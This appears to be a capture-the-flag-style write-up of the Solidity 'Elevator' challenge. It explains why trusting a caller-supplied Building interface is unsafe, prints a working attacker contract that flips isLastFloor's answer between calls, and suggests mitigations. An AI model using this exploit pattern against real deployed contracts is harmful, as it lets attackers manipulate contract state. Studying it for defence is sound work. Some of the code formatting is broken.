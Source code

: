 # Elevator Contract Vulnerability and Mitigation in Solidity

The main problem with the Elevator contract lies in its reliance on an external contract, `Building`, to determine whether the current floor is the last floor using the `isLastFloor` function. Specifically, the vulnerability arises from the fact that the Elevator contract trusts the `Building` interface implementation provided by `msg.sender`.

Here's the problematic code:

```solidity
Building building = Building(msg.sender);

if (! building.isLastFloor(_floor)) {
  floor = _floor;
  top = building.isLastFloor(floor);
}
```

An attacker can make a harmful contract using the Building interface and tamper with the isLastFloor function to take advantage of the Elevator contract. This occurs because the Elevator contract doesn't set restrictions on how isLastFloor is implemented.

contract ElevatorHack {
Elevator private immutable target;
uint private countCalls;

```solidity
    constructor(address _target) {
        target = Elevator(_target);
    }

    function attack() external {
        target.goTo(1);
        require(target.top(), "is not top floor");
    }

    function isLastFloor(uint) external returns (bool) {
        countCalls++;
        return countCalls > 1;
    }
```

}

The attacker's contract can alter the isLastFloor function's return value or use other methods to trick the Elevator contract, enabling the attacker to reach the top floor.

To address this problem, the Elevator contract should not depend on external contracts for crucial functions like isLastFloor. Instead, it should have built-in logic to check if a floor is the last one or use strict validation and access control to allow only trusted contracts to interact with it.
